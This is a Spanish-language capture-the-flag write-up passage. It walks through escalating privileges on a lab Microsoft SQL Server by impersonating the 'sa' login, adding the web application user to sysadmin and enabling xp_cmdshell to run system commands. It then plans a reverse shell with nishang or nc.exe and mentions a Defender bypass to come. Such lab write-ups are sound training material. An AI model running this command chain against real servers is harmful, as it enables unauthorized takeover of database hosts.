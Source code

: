 ```
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

La respuesta es sa asi que vamos bien encaminados. Lo que tenemos ahora es que podemos suplantar a sa y que estamos como _Freelancer_webapp_user_ a si que metamos a nuestro usuario en este grupo.

```
EXECUTE AS LOGIN = 'sa'
EXEC sp_addsrvrolemember 'Freelancer_webapp_user', 'sysadmin'
```
Nos devolvera `No results. Previous SQL was not a query.` pero es normal ahora lo confirmaresmo con.

```
SELECT IS_SRVROLEMEMBER('sysadmin');

```

Nos deveria devolver un 1. Aqui la base de datos se comporta bastande raro, ya que tenemos que hacer todo demasiado rapido o sino, no podremos ejecutar corrrectamente los comandos, tendremos que ejecutar los comandos varias veces ya que la configuracion nos hace ir a contra reloj.

Ya estamos en el grupo `sysadmin` a si que ya podemos reconfigurar la. Empecemos con lo basico

```
sp_configure 'show advanced options', '1'
RECONFIGURE
```
Nos devolvera el mensaje de que no hay respuesta pero es completamente normal, la accion se esta haciendo. Seguimos

```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
Y ahor aconfirmemos si realmentelo que hicimos fuinciono con un...

```
EXEC xp_cmdshell 'whoami'
```
Y EFECTIVAMENTE TENEMOS LA EJECUCION REMOTA DE COMANDOS. Ahora lo que nos importa es establecer una reverse shell y como hemos echo en maquinas pasadas usaremos [nishang](# 'Framework en PowerShell con scripts y payloads para pentesting, post-explotación y red team en sistemas Windows.'). Pero me resulto imposible colarlo,  primero falle en la decodificacion de windowos y muchas cosas mas. Me resulto muy extraño que no pudiera ejecutar lo a si que luego al final de este writeup les mostrare como S4vitar elude por completo el defender. 

En otras ocaciones hemos abusado de la ejecucion de comandos para poder subir ejecutables tales como el nc.exe, netcat, payloadas echos con metaexploit y a si. Metaexploit ya no se usa, preparandonos para la oscp, a si que que lo mas eguro para hacer es usar nc.exe y probar si podemos ejecutarlo. Podemos subir lo al directorio temp pero primero veamos si cumplimos los requisitos.

- **Comprobar si tenemos trafico de red entre la base de datos y nuestra maquina**

Para esto usaremos ping en labase de datos victima y [tcpdup](# 'Sniffer en línea de comandos que captura y muestra paquetes de red en una interfaz, útil para analizar tráfico y diagnosticar problemas.') en nuestro equipo.
